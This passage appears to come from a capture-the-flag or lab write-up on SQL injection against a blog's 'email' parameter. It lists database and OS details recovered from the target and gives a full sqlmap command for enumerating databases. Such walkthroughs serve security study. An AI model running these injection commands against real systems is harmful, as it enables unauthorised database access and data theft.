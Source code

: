 ![](./IMG/39.png)

> With above attack, I can get the information as follow

1. user: staff
2. Mysql version: 8.0
3. OS: Ubuntu 22.04.1
4. DB name: usage_blog

> To speed up the attack, I will specify DB, Table and column name when I know those information 
> So I tried the following payload step by step

- Retrieve DB name, I use

```
sqlmap -r sql.req -p email --dbms=mysql --technique=BE --dbs --ignore-code=500,419 --level 4 --batch
```

![](./IMG/38.png)
